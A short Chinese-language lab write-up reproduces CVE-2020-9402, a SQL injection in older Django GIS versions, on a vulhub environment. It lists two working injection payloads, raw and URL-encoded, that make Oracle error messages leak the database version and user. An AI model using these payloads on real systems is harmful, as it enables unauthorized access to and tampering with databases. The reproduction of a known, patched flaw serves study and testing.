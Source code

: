 ### Django GIS SQL注入漏洞复现

## 漏洞详情

Django是Django基金会的一套基于Python语言的开源Web应用框架。该框架包括面向对象的映射器、视图系统、模板系统等。  Django  1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

## 漏洞环境

[环境搭建](https://github.com/vulhub/vulhub/blob/master/django/CVE-2020-9402)，环境启动后，访问http://your-ip:8000即可看到Django默认首页。

## 漏洞复现

payload1：
 访问http://your-ip:8000/vuln/，在该网页中使用get方法构造q的参数，构造SQL注入的字符串`20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1`

payload2：
 访问http://your-ip:8000/vuln2/。 在该网页中使用get方法构造q的参数，构造出SQL注入的字符串`0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`

```bash
http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
1
http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--
1
```

可见，括号已注入成功，SQL语句查询报错：








